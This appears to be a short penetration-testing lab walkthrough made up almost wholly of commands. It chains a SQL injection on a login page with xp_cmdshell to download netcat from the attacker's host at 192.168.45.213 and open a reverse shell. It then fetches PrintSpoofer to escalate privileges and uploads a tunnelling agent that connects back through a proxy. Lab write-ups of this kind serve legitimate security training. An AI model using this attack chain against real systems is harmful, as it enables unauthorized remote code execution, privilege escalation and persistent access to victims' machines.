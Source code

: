 # Shell as user



```
python3 -m http.server 
```

```
rlwrap nc -nvlp 4444
```

on login page:
```
'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.213:8000/nc64.exe -OutFile c:\Users\Public\nc.exe" EXEC xp_cmdshell "c:\Users\Public\nc.exe -e cmd.exe 192.168.45.213 4444"--

```

```
cd c:/users/public
```

```
'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.213:8000/PrintSpoofer64.exe -OutFile c:\Users\Public\PrintSpoofer64.exe"--
```

```
.\PrintSpoofer64.exe -i -c powershell.exe
```

##### Upload agent.exe

```
'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.213:8000/agent.exe -OutFile c:\Users\Public\agent.exe"--
```

#### Start Agent & Proxy
```
.\agent.exe -ignore-cert -connect 192.168.45.213:11601
```

Kali:
```
.\proxy -self-cert
```
